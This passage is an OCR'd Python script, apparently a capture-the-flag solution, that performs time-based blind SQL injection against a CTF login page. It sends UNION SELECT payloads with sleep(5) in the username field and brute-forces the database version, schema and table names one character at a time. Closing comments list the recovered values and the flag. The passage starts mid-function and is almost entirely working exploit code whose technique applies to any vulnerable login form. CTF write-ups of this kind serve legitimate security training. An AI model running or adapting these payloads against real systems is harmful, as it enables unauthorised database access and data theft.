 ```python

    phew = ""
    while True:
        for char in chars:
            name = f"{phew}{char}"
            sys.stdout.write(f"\r[+] Mysql name: {name}")
            payload = f"a' UNION SELECT NULL,NULL,NULL AND (select sleep(5) from dual where BINARY version() like '{name}%') #"
            data = {
                "username": payload,
                "password": "pass"
            }
            time_started = time.time()
            output = session.post(url, data=data, allow_redirects=False)
            time_finished = time.time()
            time_taken = time_finished - time_started
            if time_taken < 5:
                pass
            elif char == "%":
                pass
            else:
                phew += char
                break

def bf_table():
    # I need to know web tbh this portion doesn't give full name so I guessed the remainng part :P
    chars = string.printable[:-6]
    session = requests.session()
    url = "https://ctftogo-3-mice.chals.io/login"

    phew = ""
    while True:
        for char in chars:
            name = f"{phew}{char}"
            sys.stdout.write(f"\r[+] Table name: {name}")
            payload = f"a' UNION SELECT NULL,NULL,NULL and (select sleep(5) from dual where (select table_name from information_schema.tables where table_schema=database() and table_name like '%{name}%' limit 0,1) like '%') #"
            data = {
                "username": payload,
                "password": "pass"
            }
            time_started = time.time()
            output = session.post(url, data=data, allow_redirects=False)
            time_finished = time.time()
            time_taken = time_finished - time_started
            if time_taken < 5:
                pass
            elif char == "%":
                pass
            else:
                phew += char
                break

if __name__ == "__main__":
    #bf_mysql()
    bf_db()
    #bf_table()

# [+] Mysql name: 10.11.4-MariaDB
# [+] Database name: mice_book
# [+] Table name: flags
# [+] Flag: flag{3_bl1nd_m1ce_s33_h0w_th3y_run}
```